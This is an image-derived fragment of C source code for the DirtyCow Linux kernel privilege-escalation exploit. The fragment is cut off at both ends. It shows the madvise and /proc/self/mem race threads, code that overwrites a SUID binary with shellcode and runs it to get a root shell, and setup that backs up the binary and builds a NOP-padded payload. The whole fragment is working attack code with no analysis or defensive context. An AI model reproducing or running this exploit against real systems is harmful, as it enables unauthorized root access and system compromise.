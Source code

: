 ```c
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        c+=madvise(map,100,MADV_DONTNEED); 
    }
    printf("thread stopped\n"); 
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR); int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len); 
    }
    printf("thread stopped\n"); 
}

void *waitForWrite(void *arg) {
    char buf[sc_len];
    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary); 
            break;
        }
        fclose(fp);
        sleep(1); 
    }

    stop = 1;

    printf("Popping root shell.\n"); 
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n"); 
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary); 
    system(backup);

    f = open(suid_binary,O_RDONLY); 
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size]; 
    memset(payload, 0x90, st.st_size); 
    memcpy(payload, sc, sc_len+1);

    map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

```